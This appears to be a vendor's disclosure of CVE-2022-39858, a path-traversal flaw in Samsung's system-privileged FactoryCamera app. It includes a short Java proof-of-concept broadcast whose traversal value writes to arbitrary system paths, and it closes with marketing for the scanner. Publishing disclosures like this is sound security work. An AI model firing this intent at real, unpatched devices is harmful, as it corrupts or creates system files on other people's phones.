

# Details

<table>
	<tr>
		<td>Name</td>
		<td>FactoryCamera</td>
	</tr>
	<tr>
		<td>Package name</td>
		<td><code>com.sec.factory.camera</code></td>
	</tr>
	<tr>
		<td>Reported date</td>
		<td>2022.02.07</td>
	</tr>
	<tr>
		<td>Fixed date</td>
		<td>2022.10.04</td>
	</tr>
	<tr>
		<td>Severity</td>
		<td>High</td>
	</tr>
	<tr>
		<td>Handle</td>
		<td><a href="https://nvd.nist.gov/vuln/detail/CVE-2022-39858">CVE-2022-39858</a> (SVE-2022-0311)</td>
	</tr>
	<tr>
		<td>Reward</td>
		<td>$10310</td>
	</tr>
</table>

# Description

We scanned the FactoryCamera app using the Oversecured mobile vulnerability scanner. This app is internal and is used to test the camera. This app is system because it has the setting `android:sharedUserId="android.uid.system"` in the `AndroidManifest.xml` file and thus works from UID 1000. Any vulnerability in it will lead to much more serious consequences than a vulnerability in a regular app.

Oversecured found the following vulnerability:


As you can see, when passing `NCAMTEST_211X` test code, the app took the `arg4` parameter, unsafely concatenated it to the path `/sys/class/camera/flash/` and wrote the value `200` there. Thus, an attacker could take advantage of this vulnerability and create any system files where the value `200` would be written or corrupt already existing ones.

**Proof of Concept**
```java
Intent i = new Intent("com.sec.samsungtest.ACTION_CAMERATEST");
i.setClassName("com.sec.factory.camera", "com.sec.android.app.camera.AtBroadcastReceiver");
i.putExtra("testtype", "NCAMTEST");
i.putExtra("arg1", "2");
i.putExtra("arg2", "1");
i.putExtra("arg3", "1");
i.putExtra("arg4", "../../../../../data/system/users/0/evil");
sendBroadcast(i);
```

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.